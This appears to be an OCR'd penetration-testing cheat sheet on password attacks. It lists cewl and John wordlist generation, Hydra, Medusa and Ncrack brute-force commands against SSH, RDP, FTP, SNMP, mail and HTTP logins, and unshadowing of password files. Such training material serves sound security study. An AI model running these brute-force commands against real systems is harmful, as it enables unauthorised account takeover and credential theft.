 cewl can generate a password list from a web page
cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt
Password Mutating

John the ripper can mutate password lists
nano /etc/john/john.conf
john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt
Medusa

Medusa, initiated against an htaccess protected web directory
medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10
Ncrack

ncrack (from the makers of nmap) can brute force RDP
ncrack -vv --user offsec -P password-file.txt rdp://$ip
Hydra

Hydra brute force against SNMP
hydra -P password-file.txt -v $ip snmp

Hydra FTP known user and password list
hydra -t 1 -l admin -P /root/Desktop/password.lst -vV $ip ftp

Hydra SSH using list of users and passwords
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh

Hydra SSH using a known password and a username list
hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh

Hydra SSH Against Known username on port 22 hydra $ip -s 22 ssh -l <user> -P big\_wordlist.txt

Hydra POP3 Brute Force
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V

Hydra SMTP Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V

Hydra attack http get 401 login with a dictionary
hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin

Hydra attack Windows Remote Desktop with rockyou hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip

Password Hash Attacks
Online Password Cracking
https://crackstation.net/

Hashcat running on

Sample Hashes
http://openwall.info/wiki/john/sample-hashes

Identify Hashes
hash-identifier

Crask linux hashes you must first unshadow them:
unshadow passwd-file.txt shadow-file.txt
unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
